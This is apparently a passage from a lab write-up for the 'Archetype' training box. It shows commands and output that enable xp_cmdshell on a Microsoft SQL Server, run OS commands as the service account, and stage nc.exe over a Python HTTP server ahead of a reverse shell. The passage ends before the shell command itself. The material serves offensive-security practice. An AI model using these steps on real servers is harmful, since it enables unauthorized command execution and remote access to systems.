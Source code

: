 ```shell

-----------   

          1   

SQL> EXEC xp_cmdshell 'net user';
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL> sp_configure 'show advanced options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> sp_configure;

xp_cmdshell                                     0             1              0             0   

SQL> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL> 
```

Download nc.exe from [nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)
Or search package for your distro (kali)[https://www.kali.org/tools/windows-binaries/]

#Reverse shell
On local machine:
Open python http server on nc.exe directory:
```shell
└─$ locate nc.exe
/home/darthv/git/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

└─$ cd /usr/share/windows-resources/binaries/nc.exe 
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
